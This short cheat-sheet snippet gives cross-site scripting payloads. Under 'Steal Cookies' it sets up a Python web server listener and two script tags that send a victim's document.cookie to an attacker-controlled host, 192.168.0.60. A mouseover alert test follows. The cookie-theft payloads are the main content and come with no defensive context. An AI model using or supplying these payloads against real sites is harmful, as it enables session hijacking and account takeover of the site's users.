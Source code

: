 Steal Cookies
-----------------------
```
# Use ruby SSL server for SSL connections
# Start Python Web Server
python -m SimpleHTTPServer 80

<script>document.location="http://192.168.0.60/?c="+document.cookie;</script>
<script>new Image().src="http://192.168.0.60/index.php?c="+document.cookie;</script>
```
Mouseover test
-----------------------
```
<a href="" onmouseover="javascript:alert('HackerOne MkSecurity Dom XSS');">Click for Detail</a>
```
